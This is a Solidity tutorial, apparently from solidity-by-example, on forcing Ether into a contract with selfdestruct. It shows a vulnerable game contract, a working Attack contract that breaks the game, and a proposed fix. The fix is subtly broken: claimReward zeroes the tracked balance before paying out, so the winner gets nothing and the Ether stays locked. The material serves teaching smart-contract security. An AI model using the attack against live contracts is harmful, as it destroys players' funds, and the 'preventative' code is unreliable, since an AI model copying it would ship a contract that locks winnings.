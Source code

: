 # Self Destruct
From https://solidity-by-example.org/hacks/self-destruct/

Contracts can be deleted from the blockchain by calling selfdestruct.

selfdestruct sends all remaining Ether stored in the contract to a designated address.

## Vulnerability
A malicious contract can use selfdestruct to force sending Ether to any contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint256 public constant TARGET_AMOUNT = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint256 balance = address(this).balance;
        require(balance <= TARGET_AMOUNT, "Game is over");

        if (balance == TARGET_AMOUNT) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent,) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```

```
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

## Preventative Techniques
Don't rely on address(this).balance

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract EtherGame {
    uint256 public constant TARGET_AMOUNT = 7 ether;
    uint256 public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= TARGET_AMOUNT, "Game is over");

        if (balance == TARGET_AMOUNT) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");
        balance = 0;
        (bool sent,) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
